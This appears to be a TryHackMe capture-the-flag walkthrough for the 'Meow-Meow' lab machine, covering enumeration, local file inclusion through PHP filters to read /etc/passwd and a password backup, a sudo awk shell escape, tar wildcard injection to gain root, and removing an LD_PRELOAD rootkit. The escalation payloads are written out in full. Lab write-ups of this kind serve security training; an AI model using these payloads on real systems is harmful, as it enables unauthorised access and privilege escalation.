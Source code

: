 ```yaml
---
title: Meow-Meow walkthrough
date: 2024-11-24 04:15:00 +0530
categories: [Writeup, TryHackMe]
tags: [lfi, privesc, tar wildcard, rootkit, user space rootkit]
image:
  path: /assets/writeup/tryhackme/backtrack/meowmeow.png
  alt: Backtrack image
---
```

<!-- markdownlint-capture -->
<!-- markdownlint-disable -->
#### This is a medium level machine on tryhackme. In order to gain root access first we will use **LFI** to gain bat user access after that use the **awk** to gain devilx user shell then user **tar wildcard injection** to gain root and there we need to bypass the **rootkit** to gain root flag.
{: data-toc-skip=''}
<!-- markdownlint-restore -->
## **Enumeration**
### NMAP Scan
```console
Nmap scan report for 10.10.171.71
Host is up (0.17s latency).

PORT     STATE SERVICE VERSION
2200/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8f:34:c5:d4:c0:13:9e:1b:9f:e5:87:66:88:83:b0:65 (RSA)
|   256 b2:d8:ca:85:c3:14:a9:c1:73:46:03:c5:4c:38:82:48 (ECDSA)
|_  256 1d:01:08:e4:e7:2a:29:8a:00:ee:12:2d:6f:ef:f4:c9 (ED25519)
8000/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
| http-robots.txt: 1 disallowed entry 
|_/bat.txt
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
We have 2 ports open
- 2200 - SSH
- 8000 - webapp
### Port 8000
- This was a very minimal web application.
- But the nmap scan shows there is a disallowed entry `/bat.txt`
## bat user shell
### Contents of bat.txt
```console
text/gb2312
------------------------------------------------------------------------------------------------------
YmF0INPDu6e1xMPcwuvX7r38sbvW2NbDo6yyotf3zqqxuLfdtOa0otTatbHHsNPDu6fW98S/wrzW0LXEIGJhY2t1cC50eHQg1tA=
------------------------------------------------------------------------------------------------------
```
- as the hint(gb2312) suggests it is a chinese character(from wikipedia (https://en.wikipedia.org/wiki/GB_2312)) for decoding no online tool found so made this small python script

```py
import base64

# Your Base64-encoded string
base64_string = "YmF0INPDu6e1xMPcwuvX7r38sbvW2NbDo6yyotf3zqqxuLfdtOa0otTatbHHsNPDu6fW98S/wrzW0LXEIGJhY2t1cC50eHQg1tA="

# Decode the Base64 string
decoded_bytes = base64.b64decode(base64_string)

# Decode the bytes to a GB2312-encoded string
gb2312_text = decoded_bytes.decode("gb2312")

print(gb2312_text)
```
### Output
```console
bat@MSI:~$ python3 a.py
bat 用户的密码最近被重置，并作为备份存储在当前用户主目录中的 backup.txt 中
```
- After translating
```
The bat user's password was recently reset and is stored as a backup in backup.txt in the current user's home directory.
```
- This text hint us that there is lfi somewhere lets try to find it
- Using `ayjun` for finding parameters.
```console
kali@kali ~ → arjun -u http://10.10.171.71:8000/            
    _
   /_| _ '
  (  |/ /(//) v2.2.6
      _/      

[*] Probing the target for stability
[*] Analysing HTTP response for anomalies
[*] Analysing HTTP response for potential parameter names
[*] Logicforcing the URL endpoint
[✓] parameter detected: view, based on: body length
[+] Parameters found: view
```
- So lets try to access /etc/passwd
![1.png](/assets/writeup/tryhackme/meowmeow/1.png)
- We got invalid request maybe there are some filters in place.
- Lets try to bypass it through `php filters` payload
![2.png](/assets/writeup/tryhackme/meowmeow/2.png)
- We got base64 encoded response let's dcode it and see whats inside
```console
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
devilx:x:1000:1000:meowmeow:/home/devilx:/bin/bash
bat:x:1001:1001::/home/bat:/bin/sh
```
- We found current user's (www-data) home directory and the place where bat's password is stored. i.e. /var/www/backup.txt
![3.png](/assets/writeup/tryhackme/meowmeow/3.png)
- Another base64 but with rot 21
![4.png](/assets/writeup/tryhackme/meowmeow/4.png)

- These are the SSH creds lets login using SSH running on port 2200.
### user flag
- In the home directory of devilx user there is user.txt which is also accessible by bat. So in other words we got user.txt

## devilx user shell
- after using `sudo -l` we can see that bat user can use awk as devilx user so lets use this
```console
$ sudo -l
Matching Defaults entries for bat on meowmeow:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User bat may run the following commands on meowmeow:
    (devilx) NOPASSWD: /usr/bin/awk
```
- payload used: `sudo -u devilx awk 'BEGIN {system("/bin/bash")}'`

## shell as root
- here if we do `sudo -l` we can see that devilx user can run `/opt/backup/backup.sh` as root
```console
devilx@meowmeow:/home/devilx$ sudo -l
Matching Defaults entries for devilx on meowmeow:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User devilx may run the following commands on meowmeow:
    (root) NOPASSWD: /opt/backup/backup.sh
```
### contents of backup.sh
```sh
#!/bin/bash
/bin/tar -cf backup.tar *
```
- After searching a little on google we can find a way to exploit this
- payload used:
```console
cd /home/devilx
echo -e '#!/bin/bash\n/bin/bash' > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
sudo /opt/backup/backup.sh
```
![5.png](/assets/writeup/tryhackme/meowmeow/5.png)
### root flag
- although we are root we can't cat /root/root.txt
- there is an another file with name `important-notice.txt`
```
Now you have to find a rootkit which is harming our servers
```
- So due to this rootkit we are not able to cat /root/root.txt . We need to bypass this to get flag
- Let's check if it is user space rootkit using `ldd /bin/ls`
```console
root@meowmeow:/root# ldd /bin/ls
        linux-vdso.so.1 (0x00007ffd2b1b4000)
        /usr/local/lib/kit.so (0x00007f5fb120e000)
        libselinux.so.1 => /lib/x86_64-linux-gnu/libselinux.so.1 (0x00007f5fb0fe6000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f5fb0bf5000)
        libdl.so.2 => /lib/x86_64-linux-gnu/libdl.so.2 (0x00007f5fb09f1000)
        libpcre.so.3 => /lib/x86_64-linux-gnu/libpcre.so.3 (0x00007f5fb0780000)
        /lib64/ld-linux-x86-64.so.2 (0x00007f5fb1632000)
        libpthread.so.0 => /lib/x86_64-linux-gnu/libpthread.so.0 (0x00007f5fb0561000)
```

- now finally we find kit.so that looks odd and its name also suggests that it is the rootkit harming sytem (preventing us from reading /root/root.txt)
- now we will just try to remove it by moving it from /lib to another directory
- after moving it we were able to get flag
```console
root@meowmeow:/root# mv /usr/local/lib/kit.so /tmp/
root@meowmeow:/root# cat root.txt 
ERROR: ld.so: object '/usr/local/lib/kit.so' from LD_PRELOAD cannot be preloaded (cannot open shared object file): ignored.
<REDACTED>
root@meowmeow:/root#
```













